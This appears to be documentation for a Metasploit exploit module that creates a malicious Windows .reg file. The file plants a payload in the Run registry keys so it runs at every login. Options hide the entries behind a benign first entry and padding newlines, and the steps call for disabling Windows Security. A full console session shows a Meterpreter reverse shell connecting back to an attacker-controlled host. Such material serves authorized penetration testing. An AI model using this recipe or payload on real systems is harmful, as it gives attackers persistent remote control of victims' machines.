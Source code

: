 ## Vulnerable Application

This module creates a Windows Registration Entries (.reg) file which
adds the specified payload to the Windows Registry. The payload runs
upon Windows login for the current user. If the user has elevated
privileges when opening the file, the payload will run upon login
when any user logs in.

The user will receive a warning prompt to confirm Registry changes
when opening the file.

This module has been tested successfully on:

* Microsoft Windows 7 Professional SP1 (x86_64)
* Microsoft Windows 11 Professional 21H2 (x86_64)


## Options

### FILENAME

The registration entries file name. (Default: `msf.reg`).


## Advanced Options

### AddToCurrentUserWindowsCurrentVersionRun

Add payload to login for current user. (Default: `true`)

### AddToCurrentUserWindowsCurrentVersionRunOnce

Same as AddToCurrentUserWindowsCurrentVersionRun, but the registry key is deleted after use. (Default: `false`)

### AddToLocalMachineWindowsCurrentVersionRun

Add payload to login for all users. The user will see a vague error message if they do not have the necessary permissions,
but all other entries are still added successfully. (Default: `true`)

### AddToLocalMachineWindowsCurrentVersionRunOnce

Same as AddToLocalMachineWindowsCurrentVersionRun, but the registry key is deleted after use.' (Default: `false`)

### PrependBenignEntry

Prepend a benign registry entry at the start of the file. (Default: `true`),

### PrependNewLines

Prepend new lines before the first malicious registry entry. (Default: `100`)


## Verification Steps

On the Metasploit host:

1. Start msfconsole
1. Do: `use exploit/windows/fileformat/windows_registration_entries`
1. Do: `set filename [filename.reg]`
1. Do: `set payload [payload]`
1. Do: `set lhost [lhost]`
1. Do: `set lport [lport]`
1. Do: `run`
1. Do: `handler -p [payload] -P [lport] -H [lhost]`

On the target Windows machine:

1. Ensure Windows Security is disabled
1. Open the `msf.reg` file and click `Yes` for the "Are you sure you want to continue?" prompt
1. Log out then login as the same user


## Scenarios

### Microsoft Windows 11 Professional 21H2 (x86_64)

```
msf6 > use exploit/windows/fileformat/windows_registration_entries
[*] No payload configured, defaulting to cmd/windows/http/x64/meterpreter/reverse_tcp
msf6 exploit(windows/fileformat/windows_registration_entries) > set payload cmd/windows/http/x64/meterpreter/reverse_tcp
payload => cmd/windows/http/x64/meterpreter/reverse_tcp
msf6 exploit(windows/fileformat/windows_registration_entries) > set lhost 192.168.200.130 
lhost => 192.168.200.130
msf6 exploit(windows/fileformat/windows_registration_entries) > set lport 4444
lport => 4444
msf6 exploit(windows/fileformat/windows_registration_entries) > run
[+] msf.reg stored at /root/.msf4/local/msf.reg
[*] This file will create the following registry keys:
HKEY_CURRENT_USER\Software\JpWpgNXlLXXrQv\Kz8Qi33Zow
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run\2iL9aN40YYLwgDl
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\rhFG8l9yvhQ
msf6 exploit(windows/fileformat/windows_registration_entries) > handler -p cmd/windows/http/x64/meterpreter/reverse_tcp -P 4444 -H 192.168.200.130
[*] Payload handler running as background job 0.
msf6 exploit(windows/fileformat/windows_registration_entries) > 
[*] Started reverse TCP handler on 192.168.200.130:4444 

msf6 exploit(windows/fileformat/windows_registration_entries) > 
[*] Sending stage (203846 bytes) to 192.168.200.169
[*] Meterpreter session 1 opened (192.168.200.130:4444 -> 192.168.200.169:59250) at 2025-07-13 08:42:07 -0400

msf6 exploit(windows/fileformat/windows_registration_entries) > sessions -i -1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: win-11-pro-x64\asdf
meterpreter > sysinfo 
Computer        : WIN-11-PRO-X64
OS              : Windows 11 21H2 (10.0 Build 22000).
Architecture    : x64
System Language : en_GB
Domain          : WORKGROUP
Logged On Users : 5
Meterpreter     : x64/windows
```
